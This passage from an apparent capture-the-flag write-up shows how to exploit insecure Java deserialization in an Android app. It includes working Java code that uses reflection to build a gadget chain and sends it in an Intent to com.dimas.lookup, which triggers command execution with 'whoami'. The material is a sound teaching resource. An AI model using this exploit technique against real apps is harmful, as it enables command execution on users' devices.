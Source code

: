 Also the challenge has the gadget class `Testing.java` which executes cmd. `Testing.java` which is serializable class which tries to read our object and construct it. Using these two we can create gadget chain and pass intent with serializable. When victim app reads `intent.getStringExtra()` , it calls readObject of our `Testing2` object which calls toString() method of `Testing` object and finally invoking **exec**. 


For setting the variable `cmd` as well as `object` we can use Java reflections since there are no public setters to set it in the object. This is the common way used while exploiting deserialization bugs, a neat [blog](https://greyshell.github.io/posts/insecure_deserialization_java/) explaining this.

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        try {
            Field f = Testing.class.getDeclaredField("cmd");
            f.setAccessible(true);
            Log.d("foobar::",f.getName());

            Testing testing = new Testing();
            f.set(testing,"whoami");
            
            Testing2 testing2 = new Testing2();
            Field f2 = Testing2.class.getDeclaredField("object");
            f2.setAccessible(true);
            f2.set(testing2,testing);

            Intent intent = new Intent();
            intent.setClassName("com.dimas.lookup","com.dimas.lookup.RealTimeUpdateActivity");

            Bundle bundle = new Bundle();
            bundle.putSerializable("exploit",testing2);
            intent.putExtras(bundle);
            startActivity(intent);


        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
	    }
    }
}

```

In order to construct the serialized object we should have `Testing.java` and `Testing2.java` in our project structure with same package name. 

```
project structure
->java
    ->com
        ->dimas.lookup
            ->Testing.java
            ->Testing2.java
        ->example.tcpip
            ->MainActivity.java
```
